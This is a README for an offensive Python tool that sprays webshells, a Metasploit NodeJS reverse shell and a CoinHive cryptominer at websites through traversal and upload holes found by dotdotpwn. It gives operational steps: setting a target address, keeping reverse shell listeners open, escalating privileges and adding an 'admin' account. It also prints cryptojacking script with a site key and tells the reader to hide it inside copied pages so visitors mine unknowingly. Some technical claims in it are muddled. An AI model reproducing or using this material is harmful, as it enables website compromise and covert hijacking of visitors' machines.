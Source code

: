 # Tropical Cumblast - A easy-mode, webshell/reverse-shell and cryptojacking malware spamming cannon

Written in under a day using

1. Python Requests


2. Needs dotdotpwn reports so it has something to parse


3. Preloaded with Weevely PHP Weaponized Webshells, one JavaScript reverse shell provided by Rapid7 and one example CoinHive Cryptominer


All it really does, is spam the living hell out of enumerated file upload vulnerabilities and path permissions issues that should have been taken care of by their administrators.

This is also known as host-header injection.

How it works is...

1. Reads a list of known directory traversal vulns from a wordlist
2. Generates a gigantic list of HTTP GET/POST/PUT requests,
3. Hammers the router with it for half an hour
4. And find out which one of the payloads made it.

You want to be looking at a traversal vulnerablity. that throws a code 302 or lower. That is the only chance we have at getting a stable shell to immediately work with.

Be warned, that it's quite tough. The first thing you should do if you land a shell is immediately get out of the environment, escalate your privileges and add yourself as a new username="admin". This app was specifically designed to launch Weevely PHP payloads, in both it's raw execuable form and as a embedded malware component on webpages.

# Installing and running it.

As long as you have dotdotpwn and some form of a reverse or web shell, then you are already ready to go.

1. Generate a wordlist of scanning results via dotdotpwn. dotdotpwn -m http -h http://ip.addr.ip.v4:80
2. Save the terminal results and change the value of 

**list_of_injectable_links** = "/root/dumppvulns.log"


**target** = "http://104.27.155.158:80"


**payload** = "thumbnails.php"

Then you need to generate some payloads. Be sure to take the shellcode and replace the values of these with it...

**raw_nodejs** = """
<html lang="en" dir="ltr">
    <meta charset="utf-8">
    <script type="text/javascript">
    </script>
    
**html_embedded_payload_buffer** = """
<html lang="en" dir="ltr">
    <meta charset="utf-8">
<script type="text/php">
    </script>
  
 # And remember to select your payload by changing the value of this.
 
**payload_buffer** = html_embedded_payload_buffer


With someone's index.html in the root web directory, with rwx permissions, then the payload will definitely go off even if its embedded as script tags in the html webpage. 

If someone loads your website. It goes off. Inside of THEIR webbrowser. And if they were to escape the sandbox of the web browser, then they got a lot to worry about.

# This already is working with...

1. Three working payloads from

      a. A Weevely PHP Penetration Testing Webshell
      b. A embedded PHP of that variant inside of a file called index.htm (it is created when the attack starts) due to the nature of POST requests
      c. A NodeJS Metasploit reverse shell, easily upgradable to Meterpreter.
  
Shell injection vulnerabilities are in fact, disturbingly common. If you own a wordpress, try running this against it to audit it.

# Official Steps

1. Generate a vulnerability report with dotdotpwn
2. Generate your own payloads using Weevely, Metasploit, Pupy, CoinHive, etc.
3. Load all of the obfuscated code into the script urlinjector.py

Point your cannon at whatever unsecured domain you found, and let it rip! Keep your reverse shell listeners running at ALL TIMES. If a web app payload embedded into a webpage snares someone, their reverse shell will be connecting IMMEDIATELY.
# Frighteningly enough, you can even blast websites with persistent cryptominers on it.

First make a account on CoinHive. https://coinhive.com/. Don't forget to get yourself a web wallet too for the Monero you'll be making.

Then take a look at the CONSENSUAL MINER CODE and merely replace the source web app link as so.

```
<script src="https://authedmine.com/lib/simple-ui.min.js" async></script>
<div class="coinhive-miner" 
	style="width: 256px; height: 310px"
	data-key="YOUR_SITE_KEY">
	<em>Loading...</em>
</div>
```
Here is the completed work. All you need to do is switch the src javascript file and add your official CoinHive key. Be sure to encrypt it when you actually use this blaster.

```
 <script src="https://coinhive.com/lib/coinhive.min.js"></script>
  <script>
  	var miner = new CoinHive.Anonymous('mPVwGCQgKvckboARWHMIe3CYLTISHSzU', {throttle: 0.3});

  	// Only start on non-mobile devices and if not opted-out
  	// in the last 14400 seconds (4 hours):
  	if (!miner.isMobile() && !miner.didOptOut(14400)) {
  		miner.start();
  	}
  </script>
```

Finally you want to enclose it with a ordinary webpage's syntax

```
<!DOCTYPE html>
<html lang="en" dir="ltr">
  <head>
    <meta charset="utf-8">
    <title></title>
  </head>
  <body>
    <script src="https://authedmine.com/lib/simple-ui.min.js" async></script>
<div class="coinhive-miner"
	style="width: 256px; height: 310px"
	data-key="YOUR_SITE_KEY">
	<em>Loading...</em>
</div>
  </body>
</html>
```

Or just download someone else's page with wget or httrack and then slip this code in there before loading it into the cannon.


